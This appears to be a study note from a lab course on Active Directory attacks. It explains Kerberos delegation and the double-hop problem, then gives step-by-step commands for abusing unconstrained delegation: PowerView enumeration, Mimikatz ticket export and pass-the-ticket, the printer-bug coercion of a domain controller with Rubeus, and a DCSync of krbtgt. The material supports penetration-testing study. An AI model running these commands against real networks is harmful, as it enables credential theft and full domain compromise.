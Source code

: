 # Kerberose Delegation
Delegation means the assignment of authority to another person. for example from a manager to a subordinate) to carry out specific activities. Here, suppose our compromised or initial user student1 has admin rights over dcorp-adminsrv machine we enter the dcorp-adminsrv using powershell remoting but when we run commands like ```net user /domain``` on dcorp-adminsv machine it will say access denied why? this is because of classic kerberos double hop issue since the above command ```net user /domain``` will send request to the dc for the output but since we accessed dcorp-adminsrv machine through credentials of student1 user, here the dcorp-adminsrv machine will not delegate the credentials to the third machine which is the dc. Similarly suppose user student1 wants to access the web service on internal environment he/she will request a tgt from dc then ask for ST for web service SPN, then he/she will send both the TGT and ST to the web service server and connect to the website to see his/her information here the web service has to delegate the credentials of student1 to the database server and only display the information student1 is supposed to access as opposed to an administrator due to this issue microsoft introduced unconstrained delegation where user impersonation takes place.

# Unconstrained delegation

For example student1 user would like to access web service on internal corp. Just like normal kerberos process 
- The user asks for TGT at first to the domain controller
- The DC returns TGT.
- The user requests ST for web service by sending the TGT to ticket granting server
- The user gets the ST
- The user sends the TGT and ST to the web service asking for access

After this, here the server has to determine the type of user is it normal user maybe manager maybe an administrator? just as above issue the web service computer is unable to delegate the credential of student1 to the database server computer as it needs to figure out what contents(dynamic content) to display student1, what should be shown and what shouldn't so

- The web server service uses student1's earlier provided TGT.
- The web server service sends the student1's TGT to the DC and requests ST for the database server on behalf of student'1
- The web service completes the user impersonation and connects to the database server for displaying information for student1.

# The problem with this arthitecture
The problem with this architecture is that since the web service server uses student1's earlier provided TGT to request ST for database server on behalf of student1, the web service server has TGT of every user that connects to it on its memory. It can be that administrator user, manager, student1 whoever access the website his/her TGT is stored in the memory of web service server and anyone with an administrator access to it can extract the TGT.

# Step
- We try to check if any server in the target environment has unconstrained delegation
- We try to compromise that server
- We would either wait or trick a high privileged user to connect or access the server.
- Steal the high privilege user's TGT
- Since TGT is client's identity we can access other resources or server as that client.

- Discover domain computers which have unconstrained delegation enabled usingPowerView:
```
Get-DomainComputer -UnConstrained
```
- Using ActiveDirectorymodule:
```
Get-ADComputer -Filter {TrustedForDelegation -eq $True}
Get-ADUser -Filter {TrustedForDelegation -eq $True}
```
- Export their ticket after compromsing the machine
```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```
- Use it
```
Invoke-Mimikatz -Command '"kerberos::ptt C:\Users\appadmin\Documents\user1\[0;2ceb8b3]-2-0-60a10000-Administrator@krbtgt-DOLLARCORP.MONEYCORP.LOCAL.kirbi"'
```

# Unconstrained delegation Printer Bug
Recently discovered a feature of MS-RPRN which allows any authenticated domain user can force any machine running spooler service to connect to a second machine of the user's choice. In lab we can force the domain controller to connect to dcorp-appsrv where unconstrained delegation is enabled.We can then get the machine account dcorp-dc$ hash and we can run dcsync attack or create silver ticket(command exeution, service access, etc).

- We can capture the TGT of dcorp-dc$ by using Rubeus on dcorp-appsrv:
```
Rubeus.exe monitor /interval:5 /targetuser:dcorp-dc$ /nowrap
```
- And after that run MS-RPRN.exe, (https://github.com/leechristensen/SpoolSample) on the student VM:
```
MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```
- Copy the base64 encoded TGT, remove extra spaces (if any) and use it on the student VM:
```
Rubeus.exe ptt /tikcet:<base-64ticket>
```
- Once the ticket is injected, check using ```klist``` and then run DCSync:
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"' 
```
